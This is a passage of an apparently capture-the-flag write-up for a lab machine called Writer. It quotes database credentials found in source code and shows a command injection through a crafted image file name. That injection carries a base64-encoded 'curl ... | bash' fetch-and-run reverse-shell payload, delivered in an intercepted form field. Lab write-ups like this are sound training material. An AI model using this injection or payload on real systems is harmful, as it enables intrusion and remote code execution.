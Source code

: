 
This file imports the file `/var/www/writer.htb/writer/__init__.py` which was also downloaded using the shared python snippet and from it, we could check for a Code Injection opportunity in Writer :smile:.

From the `__init__.py` we could get the following info:

- Database credentials:  **admin:ToughPasswordToCrack**, from function `connections()`
- For both app routes `/dashboard/stories/add` and `/dashboard/stories/edit`, if `image_url` is specified it downloads a local copy and them **run OS command `mv`**, moving it to the folder `/var/www/writer.htb/writer/static/img/`, which could possibly get us a foothold opportunity :smile:

## Initial access

Playing around in my machine with an excerpt of the `__init__.py` which handles the image_url attribute I have figured out that, if I upload a file with a code execution on its name like `poc.jpg; $(id)` it will execute the command when it tries to `mv` the files around.

```bash
$ python3 test.py
mv /opt/dcruz/htb/writer-10.10.11.101/exploit/poc.jpg; $(id) /opt/dcruz/htb/writer-10.10.11.101/exploit/poc.jpg; $(id).jpg
mv: missing destination file operand after '/opt/dcruz/htb/writer-10.10.11.101/exploit/poc.jpg'
Try 'mv --help' for more information.
sh: 1: uid=1000(zurc): not found
sh: 1: uid=1000(zurc): not found
mv /tmp//opt/dcruz/htb/writer-10.10.11.101/exploit/poc.jpg; $(id).jpg /opt/dcruz/htb/writer-10.10.11.101/exploit//opt/dcruz/htb/writer-10.10.11.101/exploit/poc.jpg; $(id).jpg
mv: missing destination file operand after '/tmp//opt/dcruz/htb/writer-10.10.11.101/exploit/poc.jpg'
Try 'mv --help' for more information.
sh: 1: uid=1000(zurc): not found
sh: 1: uid=1000(zurc): not found
```

Changing that to a reverse shell payload and making a request to the webserver, I was able to get a reverse shell, as detailed below:

- Creates a file to be uploaded as a story image

```bash
$echo 'curl http://10.10.10.10/1 | bash' | base64 -d
Y3VybCBodHRwOi8vMTAuMTAuMTQuMTI1LzEgfCBiYXNoCg==

$ touch 'poc.jpg; $(echo Y3VybCBodHRwOi8vMTAuMTAuMTQuMTI1LzEgfCBiYXNoCg== | base64 -d | bash);'
```

- Start a listener for the port you have specified

- Create a Story image in the portal and upload it normally using the portal. This still won't trigger the vulnerability we have identified as `image_url` isn't populated.

- Now, for the same post, edit it and intercept the request on Burp Suite. You don't need to specify anything during edit but you have to add the following value of `image_url`

```plaintext
[...]

------WebKitFormBoundarylL9ESPDLhZISoR3l
Content-Disposition: form-data; name="image_url"

file:///var/www/writer.htb/writer/static/img/poc.jpg; $(echo Y3VybCBodHRwOi8vMTAuMTAuMTQuMTI1LzEgfCBiYXNoCg== | base64 -d | bash);

[...]
```
